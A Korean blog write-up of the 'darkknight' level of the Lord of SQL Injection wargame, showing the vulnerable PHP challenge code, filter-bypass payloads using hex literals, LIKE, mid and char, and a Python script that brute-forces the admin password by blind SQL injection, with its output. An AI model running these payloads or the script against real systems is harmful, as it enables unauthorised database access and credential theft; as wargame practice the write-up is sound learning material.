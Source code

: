 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkknight 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 뭔가 쓸데없이 오타도 많이내고, 뭔가 자잘한 삽질을 많이 한 문제이다.  

잠을 제대로 못자서 그런건지 바보같은 삽질을 했다.  

`darkknight` 라는 문제인데, 얘도 `Blind SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='' and no=
---------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

이번엔 `ascii`도 사용을 못하고 `'`도 사용할 수 없다.  

그럼 쿼리문에서 사용하는 `id = 'admin'`이라는 문자를 사용할 수 없다.  

이 문제에 대해서는 금방 답을 찾았다.  

바로 `hex` 값을 이용하는 것이다.  

`id = 'admin'` 대신 `id = 0x61646d696e`를 입력해도 같은 결과를 얻을 수 있다.  

그럼 `admin`의 `pw`의 길이를 구하는 쿼리는 아래와 같이 완성된다.  

```
?pw=1&no=0 or id like 0x61646d696e and length(pw) like 1
```

문제는 `pw`를 한 글자 씩 알아낼 때 이다.  

`'`를 사용할 수 없으므로, `mid` 함수를 통해 `pw`를 한 글자 씩 뽑는다 하더라도 비교를 할 수가 없다.  

처음에는 MySQL에 있는 `hex` 함수를 사용할까 했다.  

여기서 삽질한게, `hex`는 `10진수를 16진수 값으로` 혹은 `16진수를 10진수 값으로` 바꾸어주는 함수인데, 나는 이걸 알고있었는데도 `16진수 값을 입력하면 비교가 되겠지!` 하고 생각했다.  

추출되는 값은 `char` 형태의 문자기 때문에 당연히 비교할 수 없다.  

그 다음에는 `char` 함수를 사용하는 것을 생각했다.  

여기서 두번째 삽질을 했는데, `char` 함수의 인자는 `10진수 숫자`가 들어가야 한다.  

근데 코드를 이 전에 풀었던 코드를 가져와 살짝만 수정해서 사용하다보니, 파이썬 코드에서 `chr(i)`를 쿼리의 `char` 함수의 인자로 넣어주고 있었다.  

문제가 안풀리길래 `도대체 왜지...` 이러다가 쿼리를 출력 해 보고서야 깨달았다.  

쨌든 `pw`를 구하는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1&no=0 or id like 0x61646d696e and mid(pw, 1, 1) like char(48)
```

우여곡절 끝에 완성된 코드는 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1&no=0 or id like 0x61646d696e and length(pw) like " + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1&no=0 or id like 0x61646d696e and mid(pw, " + str(j) + ", 1) like char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

드디어 제대로 된 결과를 얻을 수 있었다.  

쓸데없는 삽질 후에 얻은 값진 `admin`의 `pw`이다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0B
[+] Found 3 : 0B7
[+] Found 4 : 0B70
[+] Found 5 : 0B70E
[+] Found 6 : 0B70EA
[+] Found 7 : 0B70EA1
[+] Found 8 : 0B70EA1F
[+] Found password :  0B70EA1F
[+] End
```

알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=0b70ea1f
```

```php
------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=
------------------------------------------------------------------------------------

DARKKNIGHT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

`DARKKNIGHT Clear!!`
